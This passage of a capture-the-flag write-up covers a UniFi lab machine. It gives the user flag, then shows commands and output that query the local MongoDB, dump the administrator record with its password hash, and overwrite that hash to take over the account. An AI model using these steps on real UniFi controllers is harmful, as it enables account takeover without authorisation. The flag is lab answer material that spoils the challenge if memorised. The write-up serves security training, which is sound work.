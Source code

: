 
The user flag: `6ced1a6a89e666c0620cdb10262ba127`

Now it is time to go for root. Following the [article](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi), we need to check if MongoDB is running.

```console
unifi@unified:/$ ps aux | grep mongo
unifi         67  0.4  4.1 1100676 84848 ?       Sl   09:50   0:28 bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log --pidfilepath /usr/lib/unifi/run/mongod.pid --bind_ip 127.0.0.1
unifi       3299  0.0  0.0  11468  1052 pts/0    S+   11:48   0:00 grep mongo
```

It is.

```console
unifi@unified:/$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",

(...)		
		
unifi@unified:/$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$DG3nklAGRY8RQtzx$l3Pqg4zmHRXNZwa.3sBesr12HpG.m9Jwt7PJQ23Yjmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/"}})'
<jmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/"}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })

unifi@unified:/$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
<17 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
        "_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
        "name" : "administrator",
        "email" : "administrator@unified.htb",
        "x_shadow" : "$6$DG3nklAGRY8RQtzx$l3Pqg4zmHRXNZwa.3sBesr12HpG.m9Jwt7PJQ23Yjmjcg.iqMmhM1t6QZ.iaGHnG3FutYkTbcTWtttArdz.9k/",
        "time_created" : NumberLong(1640900495),
        "last_site_name" : "default",

(...)
```
